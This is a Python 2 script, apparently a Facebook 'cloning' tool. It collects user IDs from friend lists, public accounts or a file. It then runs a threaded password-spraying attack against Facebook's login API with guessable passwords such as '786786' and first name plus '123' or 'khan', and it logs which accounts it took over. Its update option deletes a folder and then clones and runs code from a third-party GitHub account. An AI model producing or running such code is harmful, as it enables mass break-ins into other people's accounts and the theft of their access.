 #coding=utf-8

import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib
from multiprocessing.pool import ThreadPool
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    os.system('python2 B4.py')

from requests.exceptions import ConnectionError
from mechanize import Browser

#### browser ####
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

#### colours ####
B='\033[1;94m'
R='\033[1;91m'
G='\033[1;92m'
W='\033[1;97m'
S='\033[1;96m'
P='\033[1;95m'
Y='\033[1;93m'

#### exit ####
def exb():
	print (R + 'Exit')
	os.sys.exit()

#### clear ####
def cb():
    os.system('clear')

#### time sleep ####
def t():
    time.sleep(1)
def t1():
    time.sleep(0.01)

#### print std ####
def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		t1()

#### token remove ####
def trb():
    os.system('rm -rf token.txt')

##### LOGO #####
logo='''
\033[1;94m ┈┈┈┈╱▔▔▔▔╲┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈╱▔▔▔▔╲┈┈┈┈
\033[1;94m ┈┈┈▕▕H4 S4▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕H4 S4▏▏┈┈┈
\033[1;94m ┈┈┈▕▕▂╱╲▂▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕▂╱╲▂▏▏┈┈┈
\033[1;94m ┈┈┈┈╲┊┊┊┊╱┈┈┈┈\033[1;94mShabirBaloch.\033[1;91m┈┈┈┈╲┊┊┊┊╱┈┈┈┈
\033[1;96m ┈┈┈┈▕╲▂▂╱▏┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈▕╲▂▂╱▏┈┈┈┈
\033[1;96m ╱▔▔▔▔┊┊┊┊▔▔▔▔╲☞☞☞☞☞☞\033[1;91m☜☜☜☜☜╱▔▔▔▔┊┊┊┊▔▔▔▔╲
\033[1;96m................\033[1;93mHAMIDUL \033[1;91m...............
\033[1;96m................\033[1;93m✬🄵🄰🄲🄴🄱🄾🄾🄺✬\033[1;91m..............

\033[1;96m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

\033[1;91m☞ Auther     : H4_BALOCH_S4_MASTER
\033[1;92m☞ WhatsApp   : 01905481405
\033[1;95m☞ Facebook   : https://www.facebook.com/profile.php?id=100074299117081

\033[1;93m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
                                '''
back=0
successfull=[]
checkpoint=[]
oks=[]
cps=[]
id=[]

#### login ####
def login():
	cb()
	try:
		tb=open('token.txt', 'r')
		menu() 
	except (KeyError,IOError):
		cb()
		print (logo)
		print (R + '◈━━━━▷' + S + ' Login With ✬🄵🄰🄲🄴🄱🄾🄾🄺✬ ' + R + '◁━━━━◈')
		print
		id=raw_input(S + '[☆] ' + S + 'Email: ' + G +'')
		pwd=getpass.getpass(S + '[♡] ' + R + 'Password : ')
		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pwd)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		z=json.load(data)
		if 'access_token' in z:
		    st = open("token.txt", "w")
		    st.write(z["access_token"])
		    st.close()
		    print (S + '[☆]' + Y + ' Login successfull 100% ✓')
		    os.system('xdg-open https://www.facebook.com/profile.php?id=100074299117081')
		    menu()
		else:
		    if "www.facebook.com" in z["error_msg"]:
		        print (R + 'Account has a checkpoint !')
		        t()
		        login()
		    else:
		        print (R + 'number/user id/ password is wrong !')
		        trb()
		        t()
		        login()
def menu():
	cb()
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + 'Token Invalid !')
		trb()
		t()
		login()
	try:
		otw=requests.get('https://graph.facebook.com/me?access_token='+tb)
		a=json.loads(otw.text)
	except KeyError:
		print (G + 'Account has a checkpoint !')
		trb()
		t()
		login()
	except requests.exceptions.ConnectionError:
		print (W + 'No internet connection !')
		t()
		exb()
	cb()
	print (logo)
	print (S + '[☆] ' + G + 'ID Name: ' + R + a['name'])
	print (S + '[☆] ' + G + 'User ID: ' + R + a['id'])
	print
	print (S + 50*'-')
	print
	print (S + '[' + P + '☞1' + S + ']' + S + ' Fast Cloning New Update')
	print (S + '[' + P + '☞2' + S + ']' + S + ' Update H4_BALOCH Tool')
	print (S + '[' + P + '☞3' + S + ']' + S + ' H4_BALOCH WhatsApp Group')
	print (S + '[' + Y + '☞4' + S + ']' + G + ' Log Out')
	print (S + '[' + Y + '☞0' + S + ']' + R + ' Exit')
	print
	print (S + 50*'-')
	print
	mb()


def mb():
	bm=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bm =='':
		print (R + 'Select a valid option !')
		mb()
	elif bm =='1':
		pak()
	elif bm =='2':
	    os.system('rm -rf $HOME/H4_BALOCH')
	    os.system('cd $HOME && git clone https://github.com/MDHAMIDUL30')
	    cb()
	    print (logo)
	    psb('☆10%')
	    psb('☆☆20%')
	    psb('☆☆☆30%')
	    psb('☆☆☆☆40%')
	    psb('☆☆☆☆☆50%')
	    psb('☆☆☆☆☆☆60%')
	    psb('☆☆☆☆☆☆☆70%')
	    psb('☆☆☆☆☆☆☆☆80%')
	    psb('☆☆☆☆☆☆☆☆☆90%')
	    psb('☆☆☆☆☆☆☆☆☆☆100%')
	    psb('Frends login new Account✓')
	    psb('WhatsApp Num 03232132362✓')
	    psb('WellCome To H4_BALOCH')
	    psb('Congratulations H4_BALOCH Tool Has Been Updated Successfully')
	    psb('🔓User Name☆ 786786✓')
	    psb('🔓Password ☆ 786786✓')
	    psb('Subscrib My Youtube Channel LX HABIB ✓')
	    psb('Please Login Again')
	    time.sleep(2)
	    os.system('cd $HOME/H4_BALOCH && python2 H4.py')
	elif bm =='3':
	    os.system('xdg-open https://www.facebook.com/profile.php?id=100074299117081')
	    menu()
	elif bm =='4':
		psb('Token Has Been Removed')
		trb()
		t()
		exb()
	elif bm =='0':
	    exb()
	else:
		print (R+'Fill in correctly !')
		mb()


def pak():
	global tb
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + ' Invalid Token !')
		trb()
		t()
		login()
	cb()
	print (logo)
	print (S + '[' + P + '☞1' + S + ']' + P + ' Clone With Friend List')
	print (S + '[' + P + '☞2' + S + ']' + P + ' Clone From Public Account')
	print (S + '[' + Y + '☞3' + S + ']' + Y + ' Clone From File')
	print (S + '[' + R + '☞0' + S + ']' + R + ' Back')
	print
	print (S + 50*'-')
	print
	pb()

def pb():
	bp=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bp =='':
		print (R + 'Select a valid option !')
		pb()
	elif bp =='1':
		cb()
		print (logo)
		r=requests.get('https://graph.facebook.com/me/friends?access_token='+tb)
		z=json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif bp=='2':
		cb()
		print (logo)
		idt=raw_input(S + '[☆] ' + G + 'Put Public User ID/User Name: ' + W + '')
		cb()
		print (logo)
		try:
			jok=requests.get('https://graph.facebook.com/'+idt+'?access_token='+tb)
			op=json.loads(jok.text)
			psb(S + '[☆]' + G + ' Account  Name: ' + W + op['name'])
		except KeyError:
			print (R + ' ID not found !')
			raw_input(R + ' Back')
			pak()
		r=requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+tb)
		z=json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif bp =='3':
		cb()
		print (logo)
		try:
			idlist=raw_input(S + '[☆] ' + R + 'Enter File Path: ' + G + '')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print (R + ' File Not Fount !')
			raw_input(R + ' Back')
			pak()
	elif bp =='0':
		menu()
	else:
		print (R + ' Select a valid option !')
		pb()
	print (S + '[☆]' + P + ' Total Friends: ' + W + str(len(id)))
	psb(S + '[☆]' + S + ' To stop process  click on CTRL ~ Z')
	print
	print (S + 50*'-')
	print
	def main(arg):
		global cps, oks
		user=arg
		try:
			h=requests.get('https://graph.facebook.com/'+user+'/?access_token='+tb)
			j=json.loads(h.text)
			ps1=('786786')
			dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps1)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			k=json.load(dt)
			if 'www.facebook.com' in k['error_msg']:
			    print(S+'[CP] ♡ '+user+' ♡ '+ps1)
			    cps.append(user+ps1)
			else:
			    if 'access_token' in k:
			        print (G+'[OK] ♡ '+user+' ♡ '+ps1)
			        oks.append(user+ps1)
			    else:
			        ps2=(j['first_name']+'123')
			        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps2)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			        k=json.load(dt)
			        if 'www.facebook.com' in k['error_msg']:
			            print(S+'[CP] ♡ '+user+' ♡ '+ps2)
			            cps.append(user+ps2)
			        else:
			            if 'access_token' in k:
			                print(G+'[OK] ♡ '+user+' ♡ '+ps2)
			                oks.append(user+ps2)
			            else:
			                ps3=(j['first_name']+'786')
			                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps3)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                k=json.load(dt)
			                if 'www.facebook.com' in k['error_msg']:
			                    print(S+'[CP] ♡ '+user+' ♡ '+ps3)
			                    cps.append(user+ps3)
			                else:
			                    if 'access_token' in k:
			                        print(G+'[OK] ♡ '+user+' ♡ '+ps3)
			                        oks.append(user+ps3)
			                    else:
			                        ps4=(j['first_name']+'12345')
			                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps4)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                        k=json.load(dt)
			                        if 'www.facebook.com' in k['error_msg']:
			                            print(S+'[CP] ♡ '+user+' ♡ '+ps4)
			                            cps.append(user+ps4)
			                        else:
			                            if 'access_token' in k:
			                                print(G+'[OK] ♡ '+user+' ♡ '+ps4)
			                                oks.append(user+ps4)
			                            else:
			                                ps5=('Pakistan')
			                                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps5)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                k=json.load(dt)
			                                if 'www.facebook.com' in k['error_msg']:
			                                    print(S+'[CP] ♡ '+user+' ♡ '+ps5)
			                                    cps.append(user+ps5)
			                                else:
			                                    if 'access_token' in k:
			                                        print(G+'[OK] ♡ '+user+' ♡ '+ps5)
			                                        oks.append(user+ps5)
			                                    else:
			                                        ps6=(j['first_name']+'khan')
			                                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps6)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                        k=json.load(dt)
			                                        if 'www.facebook.com' in k['error_msg']:
			                                            print(S+'[CP] ♡ '+user+' ♡ '+ps6)
			                                            cps.append(user+ps6)
			                                        else:
			                                            if 'access_token' in k:
			                                                print(G+'[OK] ♡ '+user+' ♡ '+ps6)
			                                                oks.append(user+ps6)
		except:
			pass
	p=ThreadPool(30)
	p.map(main, id)
	print
	print(S+50*'-')
	print
	print(S+'Process has been completed CP ID Open After 7 Days ')
	print(Y+'Total '+G+'OK'+S+'/'+P+'CP'+S+' = '+G+str(len(oks))+S+'/'+R+str(len(cps)))
	print(S+'Hacks ar')     
	print
	raw_input(R + 'Back')
	os.system('python2 H4.py')
if __name__=='__main__':
    login()

